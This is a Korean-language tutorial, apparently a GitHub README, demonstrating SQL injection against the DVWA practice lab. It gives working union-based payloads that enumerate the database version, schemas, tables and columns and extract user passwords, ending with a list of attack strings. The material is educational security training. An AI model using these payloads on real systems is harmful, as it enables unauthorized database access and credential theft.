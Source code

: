 ## SQL 삽입 공격
이 도구를 이용하여 허용받지 않은 서비스 대상으로 해킹을 시도하는 행위는 범죄 행위 입니다.     
해킹을 시도할 때에 발생하는 법적인 책임은 그것을 행한 사용자에게 있다는 것을 명심하시기 바랍니다.           
      
SQL Injection 취약점은 웹 애플리케이션의 메시지를 이용하여 데이터베이스 내부의 정보를 유출하는 취약점입니다.         
공격자는 데이터베이스 쿼리에 임의의 SQL 쿼리를 삽입함으로써 공격이 이루어 집니다.       

![image](https://github.com/user-attachments/assets/138182d9-75ee-4b59-b146-9244a625c355)      
SQL Injection 취약점 진단의 화면 입니다. 아래 링크에서 SQL Injection 설명을 보시면 도움이 되실겁니다.    

![image](https://github.com/user-attachments/assets/681c8fe7-8620-4d30-a74d-e7facddab60a)    
SQL Injection에 웹 소스코드 입니다. GET 메소드로 입력한 id 값을 저장하는 것을 확인할 수 있습니다.     

![image](https://github.com/user-attachments/assets/85fdebb2-775e-44f5-834b-765623895e8d)       
Low레벨의 소스코드를 보시면 쿼리문에서 ID를 입력했을때 users 테이블에서 First name과 Surname을 검색하여 출력하는 단순한 구조로 되어 있습니다  .     
여기서 문제점은 User ID를 검색하는 과정에서 입력 값 검증이 이루어 지지 않는다는 점입니다.     
"SELECT first_name, last_name FROM users WHERE user_id = '$id';";     

여기서 전체적으로 소스코드를 분석해보면 GET 메소드로 매개변수를 전달하며 ID와 Submit 2개의 매개변수가 존재하는 것을 파악할 수 있습니다.    

![image](https://github.com/user-attachments/assets/2347cafe-2b9a-48e3-b18a-3b28928a2528)               
      
User 테이블에서 User ID가 1인 first_name 필드와 last_name 필드를 출력합니다.     
User ID 값을 1씩 증가시켜 순차적으로 전체 테이블 내의 내용을 검색해 보시기 바랍니다.     
http://IP정보/vulnerabilities/sqli/?id=1&Submit=SubmitSQL Injection에는 다양한 공격 기법이 있지만 페이지에서 에러가 발생한다면      
Error-Based SQL Injection 과 UNION SQL Injection을 사용하는 것이 일반적입니다.      
그럼 매개변수에 특수문자를 삽입하여 SQL 에러가 발생하는지 확인을 해보도록 하겠습니다.        
일반적으로 특수문자는 싱글쿼터('), 더블쿼터("), 세미콜론(;) 등을 사용합니다.         

![image](https://github.com/user-attachments/assets/50395354-3675-4f5f-ae69-74ad6047e279)         
위에 화면은 에러를 발생시켰을때 화면 입니다.         
이와 같은 에러 정보는 데이터베이스마다 다르며 HTTP 응답 코드 또한 다를수 있습니다.           
500번 에러는 내부 서버 에러로 발생하는 경우가 일반적이며 200번 에러는 HTTP 요청을 성공했을때 발생을 합니다.     
프록시 툴을 통하여 HTTP 응답 헤더를 확인할수도 있습니다.        

![image](https://github.com/user-attachments/assets/ca955bf7-c39e-4ab5-9e8b-687af8e9aba8)

해당화면은 입력값에 비정상적인 쿼리 값을 입력했을때의 화면입니다.
' or 1=1 #을 입력하면 쿼리 결과가 항상 참이 되므로 테이블 내 전체 내용을 출력합니다.
#은 주석처리를 의미합니다.■ 테이블과 필드의 정의를 알아보도록 하겠습니다.
- information_schema.schemata : 데이터베이스와 관련된 정보를 가진 테이블
- - schema_name : 모든 데이터베이스의 이름 값을 가진 필드
  - - information_schema_tables : 테이블과 관련된 정보를 가진 테이블
    - - tables_name : 모든 테이블의 이름 값을 가진 필드
      - - information_schema.columns : 필드와 관련된 정보를 가진 테이블
        - - column_name : 모든 필드의 이름 값을 가진 필드■ Union 구문을 통한 DB 구조파악 순서
          - - order by를 통한 column 갯수 확인
            - - DB 버전 정보 확인- database 정보 확인
              - - table 정보 확인- column 정보 확인
                - - recode 정보 확인User
테이블 내용을 전부 출력했다면 이제 SQL Injection을 이용하여 총 필드개수를 파악해 보도록 하겠습니다.      
' order by 1 #http://IP정보/vulnerabilities/sqli/?id=%27+order+by+1+%23&Submit=Submit값을 바꿔가면서 에러가 언제 발생하는지 확인하시기 바랍니다.           
공격 대상의 SQL Injection 취약점을 확인했다면 가장 먼저 필드 개수 파악을 진행하는 것이 일반적인 방법 입니다.          
Order by 구문은 필드 값을 정렬할때 사용하며 여기에서는 전체 필드 개수를 파악하기 위함 입니다.다른 방법으로는 UNION을 사용하여 Null 값을 1씩 증가하게 하면서 필드 개수가 일치하는 지점까지 찾아볼 수도 있습니다.      
        
확인결과 해당 DB는 2개의 column을 가지고 있는것을 확인하였고, 공격 코드는 2개의 column을 포함하여 쿼리를 수행하도록 하겠습니다.     
' union select null, null #필드 값을 파악했으니 Union을 이용하여 데이터베이스와 버전 정보를 확인해 보도록 하겠습니다.     
![image](https://github.com/user-attachments/assets/706b7356-a293-4edb-a350-5c985024b044)      
        
' and 1=1 union select database(), version() #' and 1=1 union select "text", @@version #User 정보 확인    
' union SELECT null, user() #Union select를 이용하여 중요 정보 및 파일을 출력할수 있다는것을 확인하였습니다.    

![image](https://github.com/user-attachments/assets/4e06a86e-7963-4063-afac-68fe8242a8ba)     
table_schema 출력' and 1=1 union SELECT "text", table_schema FROM information_schema.tables #     

![image](https://github.com/user-attachments/assets/8061777a-097d-458a-b8bf-45a79682dd2c)     
모든 DB의 테이블명 출력, 여기서 우리가 찾고자 하는것은 'dvwa'인 테이블명 입니다.'      
and 1=1 union SELECT table_schema, table_name FROM information_schema.tables #' and 1=1 union SELECT table_name, table_schema FROM information_schema.tables where table_schema='dvwa' #      

![image](https://github.com/user-attachments/assets/0cd8e358-48a4-44bc-b62c-7de6c22c7671)    
users 테이블에 column명을 알아보았습니다.      
그중에 password 행을 확인하였습니다.' and =1=1 union SELECT table_name, column_name FROM information_schema.columns WHERE table_name='users' #    

![image](https://github.com/user-attachments/assets/0eeab25b-2b09-42a8-8395-72c3eab1f662)    

아이디와 패스워드를 출력한 화면 입니다.     
' and 1=1 union SELECT first_name, password FROM dvwa.users #Medium 레벨, High레벨은 프록시 툴을 이용해 보시기 바랍니다.     
![image](https://github.com/user-attachments/assets/e6d331f2-3489-4e17-82bc-4e71c1bc5c6c)     

공격 구문 정리
```
%' or '1' ='1%' order by 1 #
%' or 1=1 union select null, version() #
%' or 1=1 union select null, user() #
%' or 1=1 union select null, database() #
%' and 1=0 union select null, table_name from information_schema.tables #
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'users'#
%' and 1=0 union select null, concat(first_name, 0x0a, 0x0a, user, 0x0a, password) from users      
1' union select null, version() -- -
```

## More Information
https://www.securiteam.com/securityreviews/5DP0N1P76E.html
https://en.wikipedia.org/wiki/SQL_injection
https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/
https://owasp.org/www-community/attacks/SQL_Injection
https://bobby-tables.com/
